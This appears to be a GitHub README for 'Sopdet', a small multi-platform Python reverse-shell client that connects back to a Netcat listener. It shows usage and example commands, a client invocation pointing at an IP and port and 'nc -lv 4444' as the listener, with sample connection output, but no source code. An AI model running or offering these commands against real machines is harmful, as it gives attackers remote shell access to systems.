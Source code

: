 # Sopdet
A simple multi-platform reverse shell written in Python

Sopdet is a client-side Python script that when run on a Linux/Unix or Windows system will open up a shell on a remote server running Netcat as a listener on the specified port.

## Usage:
`python sopdet.py <IP address> <port>`

## Example:

### Client-side

`$ python sopdet.py 192.168.0.2 4444 linux`

`[*] Sobdet client connected to 192.168.0.2`

### Server-side

`$ nc -lv 4444`

`Connection from 192.168.0.3 65095 received!`
